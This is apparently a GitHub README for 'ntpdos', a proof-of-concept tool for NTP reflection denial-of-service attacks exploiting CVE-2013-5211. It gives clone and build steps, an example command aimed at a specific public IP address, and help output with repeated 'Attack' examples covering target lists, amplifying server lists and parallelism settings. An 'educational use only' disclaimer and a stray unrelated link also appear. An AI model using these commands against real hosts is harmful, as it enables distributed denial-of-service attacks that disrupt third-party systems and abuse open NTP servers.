 # ntpdos

PoC for distributed NTP reflection DoS (CVE-2013-5211).

git clone https://github.com/CryptoXSS/ntpdos2

cd ntpdos2

make

#./ntpdos -t 50.7.198.146 -S servers.lst -p 4

<a href="https://www.raulprietofernandez.net/blog/gnu-linux/como-instalar-un-servidor-de-ntp-en-gnu-linux-ubuntu-server">ntp</a>

## Usage

```
$ ./ntpdos -H
--==[ ntpdos by sepehrdad ]==--

usage:

  ntpdos -t <addr> -s <addr> [options] | [misc]

options:

  -t <addr>    - target ip address
  -T <file>    - list of target ip addresses
  -s <addr>    - ntp server ip address
  -S <file>    - list of ntp server ip addresses
  -p <num>     - number of parallel processes (default: 80)
  -d <num>     - delay in microsecs (default: 1000)

misc:

  -V           - show version
  -H           - show help

example:

  # Attack 127.0.0.1 with servers from servers.lst
  $ ntpdos -t 127.0.0.1 -S servers.lst

  # Attack targets from targets.lst with 192.168.2.11 server
  $ ntpdos -T targets.lst -s 192.168.2.11

  # Attack targets from targets.lst with servers from servers.lst
  $ ntpdos -T targets.lst -S servers.lst

  # Attack 1.2.3.4 with 5.6.7.8 using 200 parallel processes
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -p 200

  # Attack 1.2.3.4 with 5.6.7.8 with 1 microsec delay
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -d 1

notes:

  * list of ip addresses should have 1 ip address per line

```

## License

This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE

THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## Get Involved

**Please, send us pull requests!**

